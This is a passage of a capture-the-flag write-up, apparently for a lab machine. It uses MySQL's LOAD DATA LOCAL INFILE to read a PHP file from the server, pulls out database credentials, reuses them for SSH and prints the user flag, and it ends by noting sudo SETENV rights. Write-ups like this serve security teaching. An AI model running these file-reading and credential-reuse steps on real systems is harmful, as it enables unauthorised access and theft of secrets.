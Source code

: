 After get access it is needed to load a file that thorugh the mentioned method in the vulnerability into the locally created table
<br>
First lets test a file inside the utility-scripts directory
```
cmd: LOAD DATA LOCAL INFILE '/var/www/utility-scripts/admmin_tasks.php'  INTO TABLE exp FIELDS TERMINATED BY '\n';
```

Got an error

```
Error in query (2000): open_basedir restriction in effect. Unable to open file 
```

Lets check the phpinfo.php script that was in the folder (http://10.10.10.187/utility-scripts/info.php)

```
open_basedir	/var/www/html	/var/www/html
```

Lets try the index.php to see if the credentials are there (as in the backup in the ftp)

```
cmd:
LOAD DATA LOCAL INFILE '/var/www/html/index.php' INTO TABLE exp FIELDS TERMINATED BY '\n';
```

It did !!! 
<br>

```
creds
$servername: localhost
$username: waldo
$password: &<h5b~yK3F#{PaPB&dA}{H>
$dbname: admirerdb
```

## 13 - connect in the page to check

Only contains data for the images like in the dump..

## 14 - try ssh with the creds

They work, great!

```
cat ~/user.txt
FLAG: bbaefc72bbe961cbbfb8c4b942ba70d1
```

## 15 - Check sudo -l

The user waldo can run SETENV as root which means that he can set environment variables with root privileges.
